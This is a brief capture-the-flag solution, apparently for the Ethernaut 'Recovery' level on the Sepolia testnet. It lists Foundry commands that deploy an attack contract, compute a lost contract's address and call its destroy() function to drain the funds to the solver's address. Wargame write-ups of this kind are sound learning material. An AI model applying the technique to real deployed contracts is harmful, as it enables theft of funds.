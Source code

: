 # Recovery Solution

Deploy `RecoveryHack`:

```
forge create RecoveryHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Call the `attack()` function to retrieve the `lostContractAddress`:

```
cast call `recoveryHackAddress` "attack(address)" `ìnstanceAddress` --rpc-url $SEPOLIA_RPC_URL
```

Truncate the first 24 zeros from `lostContractAddress` and call the `destroy()` function:

```
cast send `lostContractAddress` "destroy(address)" `sepoliaPublicKey` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
